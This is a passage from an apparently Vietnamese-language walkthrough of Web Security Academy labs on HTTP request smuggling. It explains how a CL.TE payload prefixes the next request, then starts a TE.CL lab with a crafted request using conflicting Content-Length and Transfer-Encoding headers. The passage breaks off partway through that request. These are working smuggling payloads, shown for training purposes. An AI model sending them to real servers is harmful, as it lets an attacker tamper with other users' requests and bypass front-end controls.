 >Lúc này, front-end server hỗ trợ header `Content-Length` nên sẽ lấy `30` kí tự của phần body và forward sang phía back-end:
```
0

GET /404 HTTP/1.1
Foo: x
```

>Bên phía back-end server lại hỗ trợ header `Transfer-Encoding` theo kiểu `chunked` theo từng khối data, gặp kí tự kết thúc `0` nên phần còn lại của body sẽ thừa ra và nối vào request sau:
```
GET /404 HTTP/1.1
Foo: x
```

>Kết quả là request sau sẽ có dạng:
```
GET /404 HTTP/1.1
Foo: xPOST / HTTP/1.1
Host: 0aeb005a04ca25d8803e80d5001c0054.web-security-academy.net
....
```

>Phần đầu của request sau vô tình đã bị phần thừa mà ta attack ghi đè lên, kết quả là send 1 request lấy tài nguyên của đường dẫn `/404` và respone trả về `404 Not Found` do không tìm thấy tài nguyên cần tìm!!

>Kết quả send request lần 1:
>![image](https://hackmd.io/_uploads/SJntALmOA.png)

>Gửi lại lần 2:
>![image](https://hackmd.io/_uploads/Bkh50ImdC.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/SJ9sA8mdC.png)

### **5. Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses**

>Trước tiên, ta cần xác định đây là dạng gì, sau khi test với request sau thì ta biết được lab này thuộc dạng `TE.CL`:
```
POST / HTTP/1.1
Host: 0ab800c704647cea80c99e8a00970026.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9d
GET /abc HTTP/1.1
Host: 0ab800c704647cea80c99e8a00970026.web-security-academy.net
```